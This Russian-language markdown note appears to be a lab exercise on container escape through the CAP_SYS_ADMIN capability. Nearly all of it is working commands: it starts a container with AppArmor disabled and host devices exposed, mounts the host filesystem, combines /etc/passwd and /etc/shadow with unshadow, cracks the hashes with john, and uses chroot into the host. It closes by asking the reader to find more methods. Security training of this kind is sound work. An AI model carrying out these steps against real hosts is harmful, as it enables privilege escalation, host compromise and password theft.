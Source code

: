 # CAP_SYS_ADMIN

Прсомотр capabilities в контейнере
```bash
capsh --print
```

### В контейнере с предоставленной возможностью CAP_SYS_ADMIN можно попытаться монтировать файловую систему хост-системы внутри контейнера

Запуск контейнера на хосте:
```bash
# Run vulnarable container on host
docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/ --rm ubuntu_golden_image:v01 bash
```

Монтируем хостовую файловую систему
```bash
lsblk
mount /<device_file> /mnt
cd /mnt
ls -la
```

Далее можем делать что угодно, насколько хватит фантазии
Пример (расшифровать пароли):
```
unshadow /mnt/etc/passwd /mnt/etc/shadow > password
john password --format=crypt
```

```bash
chroot /mnt
```

### Задание: предложить еще способы